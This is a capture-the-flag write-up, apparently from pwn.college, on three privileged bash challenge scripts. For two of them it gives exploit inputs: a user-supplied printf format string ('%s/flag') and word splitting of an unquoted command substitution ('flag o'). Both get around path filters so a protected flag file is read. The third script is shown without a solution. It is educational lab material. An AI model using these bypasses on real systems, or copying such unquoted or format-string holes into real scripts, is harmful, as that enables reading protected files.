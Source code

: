 
## Script of the Silent
```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

[ -n "$1" ] || exit 1
[ "$(realpath "$1")" != "/" ] || exit 1
[ "$(realpath "$1")" != "/flag" ] || exit 2

printf -v BACKUP_DIR "$1"
tar cvf /tmp/backup "$BACKUP_DIR"
```

### Vulnerability
- format string should be provided by user (pitfall `#32`)

### Solution
```sh
/challenge/run %s/flag
```


## The Dangling Danger
```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/bin

[[ "$1" = *flag ]] && exit 1
cat /$(basename "$1")
```

### Vulnerability
- shellcheck says:
```sh
cat /$(basename "$1")
^-- SC2046 (warning): Quote this to prevent word splitting.
```

### Solution
```sh
/challenge/run "flag o"
```

## The Evil End
```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/bin

[[ "$1" = *flag ]] && exit 1
[[ "$1" = */ ]] && exit 2
cat /$(basename "$1")
```
